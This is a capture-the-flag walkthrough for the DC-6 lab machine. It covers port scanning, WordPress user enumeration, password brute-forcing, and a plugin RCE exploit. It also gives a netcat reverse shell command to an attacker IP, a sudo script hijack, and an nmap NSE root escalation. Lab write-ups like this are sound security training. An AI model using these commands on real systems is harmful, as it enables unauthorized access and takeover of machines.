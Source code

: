 # DC-6 Walkthrough

**Credits:**

**Rejaul Islam**  
_Security enthusiast_

............................................

## 1. Reconnaissance – Finding the Target

Like always, the first step is to **find the target IP** and scan for open ports.

```bash
sudo netdiscover
rustscan -a <ip_address>
nmap -sC -sV -n -v -p <port_here> <ip_address>
```

👉 On DC-6, only **22 (SSH)** and **80 (HTTP)** were open.

---

## 2. Web Enumeration

When I visited the IP `http://192.168.0.141`, nothing useful showed up.
That usually means we need to set up a **virtual host** mapping.

```bash
sudo nano /etc/hosts
192.168.0.141    wordy
```

Now visiting `http://wordy` works.
The site looks normal, but after scanning with **Nikto** I got something interesting:

```bash
nikto -h http://192.168.0.141
```

**Result:**

```
+ /wp-login.php: Wordpress login found.
```

✅ So this machine is running WordPress.

---

## 3. WordPress Enumeration

We know `wpscan` is the go-to tool for WordPress. First, I looked for usernames:

```bash
wpscan --url http://wordy --enumerate u --api-token <Your_Token>
```

**Found users:**

```
admin, graham, mark, sarah, jens
```

Now, brute-force the password:

```bash
wpscan --url http://wordy -U users.txt -P passwords.txt --api-token <Your_Token>
```

**Result:**

```
mark:helpdesk01
```

👉 We now have credentials for **mark**.

---

## 4. Getting Initial Access

Login to WordPress as `mark`.
Inside the dashboard, I noticed a plugin: **Activity Monitor**.

A quick search showed it has a known RCE exploit:

```bash
searchsploit activity monitor
```

**Result:**

```
Activity Monitor 20161228 - Remote Code Execution (RCE) | php/webapps/50110.py
```

Copy the exploit locally:

```bash
searchsploit -m php/webapps/50110.py
chmod +x 50110.py
python3 50110.py
```

The exploit asks for:

```
ip = <target_ip>
user = mark
password = helpdesk01
```

Then I set up a **listener** on my machine:

```bash
nc -lnvp 1212
```

Back in the exploit terminal, I used reverse shell command:

```bash
nc -e /bin/bash <your_ip> 1212
```

✅ I got a shell!

Make it stable:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 5. Privilege Escalation – User Enumeration

I checked the home directories and found 4 users.
In **mark**’s folder → a hint file.
In **jens**’ folder → a backup file.
Also found creds inside mark’s files:

```
graham:GSo7isUM1D4
```

Switch to user **graham** via SSH or shell.

---

## 6. Escalating Graham → Jens

Check sudo privileges:

```bash
sudo -l
```

**Result:**

```
User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

That means Graham can run **backups.sh** as **jens** without a password.
So I appended a malicious line:

```bash
echo "/bin/bash" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

✅ Now I am **jens**.

---

## 7. Escalating Jens → Root

Check sudo privileges again:

```bash
sudo -l
```

**Result:**

```
User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```

We know **Nmap** can be abused for privilege escalation.

First, I tried interactive shell:

```bash
sudo /usr/bin/nmap --interactive
nmap> !sh
```

But it didn’t work.
So I made a malicious NSE script:

```bash
cd /var/tmp
echo "os.execute('/bin/bash')" > hacker.nse
sudo /usr/bin/nmap --script=hacker.nse
```

✅ Got root shell! 🎉

---

## 8. Capture the Flag

```bash
cd /root
ls
cat theflag.txt
```

---

# 🎯 Conclusion

- Recon with **netdiscover + rustscan + nmap**
- Found **WordPress** → brute-forced login with `wpscan`
- Exploited vulnerable plugin → got shell
- Enumerated users → found creds for `graham`
- Used **backups.sh** privilege to escalate to `jens`
- Abused **nmap sudo** to escalate to **root**

---

## Final Words

👏 Well Done! 👏
